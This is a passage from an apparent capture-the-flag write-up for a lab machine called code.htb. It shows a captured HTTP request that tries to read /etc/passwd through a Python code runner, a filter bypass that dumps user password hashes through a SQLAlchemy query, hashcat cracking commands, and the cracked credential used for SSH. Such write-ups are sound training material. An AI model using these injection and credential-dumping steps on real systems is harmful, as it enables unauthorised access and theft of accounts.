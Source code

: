 ```
POST /run_code HTTP/1.1
Host: code.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 102
Origin: http://code.htb:5000
Connection: keep-alive
Referer: http://code.htb:5000/?code_id=2
Cookie: session=.eJx1jrEKAjEQRH9l3PqwsfMPBAuxEzmONVnjQi6BbKKI3L97V4pcNcXMG96Hhntke4jR_voh1DloFDMOQh1dcsPYrOImiDkE8dCEmvFUeeGdW4HLXmxL_dT944f05KgeroiXVJWjbXGKwiao5Q0OrGmFPUtQq4Wr5gRrzs3NvcUNFifHCSm_FiesPhxz0B90nvUdNZMyqKf9bvoCAN1WdQ.aGbaxQ.SLJKWV9BQLyvI8bKHkLIszwS0bw
Priority: u=0

code=with+open('%2Fetc%2Fpasswd'%2C+'r')+as+file%3A%0A++++content+%3D+file.read()%0A++++print(content)
```

`code=with+open('%2Fetc%2Fpasswd'%2C+'r')+as+file%3A%0A++++content+%3D+file.read()%0A++++print(content)`

Ok so it doesn’t like the use of any kind of standard files or `os` commands from Python.

Going back to the Nmap scan, port `5000` mentions Gunicorn. Doing some Googling revealed that this is related to Flask. I’ve used Flask in the past and it’s basically Python web server. I found that there is a database in Flask/SQLAlchemy called `User.query.all()` which a bunch of data about users. We can then formulate a request (thanks ChatGPT) to dump out all of the user data that this database holds. Because the command is completely unrelated to directories or common Python commands relating to operating system interactions it simply parses it and away it goes.

`print([([user.id](http://user.id/), user.username, user.password) for user in User.query.all()])`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662431/image_mh8nso.png)

```
[(1, 'development', '759b74ce43947f5f4c91aeddc3e5bad3'), (2, 'martin', '3de6f30c4a09c27fc71932bfc68474be')]
```

Hashes - cool, let’s crack.

`hashcat -m 0 -a 0 --username hashes.txt /usr/share/wordlists/rockyou.txt`

```
759b74ce43947f5f4c91aeddc3e5bad3:development              
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
```

`development` wasn’t a valid SSH login, but `martin` was.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662433/image_yz4ux2.png)
